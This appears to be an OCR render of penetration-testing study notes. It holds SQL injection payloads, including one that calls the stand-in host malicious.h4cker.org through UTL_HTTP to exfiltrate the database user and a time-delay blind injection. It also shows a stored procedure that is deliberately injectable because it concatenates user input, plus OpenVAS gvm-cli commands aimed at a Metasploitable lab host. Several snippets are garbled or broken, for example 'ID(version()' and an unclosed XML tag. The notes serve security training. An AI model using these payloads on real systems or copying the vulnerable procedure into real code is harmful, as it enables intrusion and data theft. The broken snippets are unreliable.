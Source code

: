 http://store.h4cker.org/buy,e.php?id=8||UTL_HTTP.request('malicious.h4cker.org')||SELECT user FROM DUAL)--

forces the server to delay the response by 10 seconds:
?id=8 AND ID(version() like '8%', sleep(10), 'false'))-- // time delay

Stored procedures
create procedure user_login @username varchar(20), @passwd varchar(20) As Declare @sqlstring varchar(250) Set @sqlstring = ' Select 1 from users Where username = ' + @username + ' and passwd = ' + @passwd exec(@sqlstring) Go


gvm-cli tls --gmp-username admin --hostname 10.1.1.13 --xml "<create_target><name>Metasploitablt</name><hosts>10.1.1.14</hosts></create_target>"


gvm-cli tls --gmp-username admin \
--hostname 10.1.1.13 \
--xml "<create_target><name>Metasploitablt</name> \
<target id=\"swewegfewg\"></target> \
<config id=\"aefefw\"></config><create_task>"

gvm-pyshell 
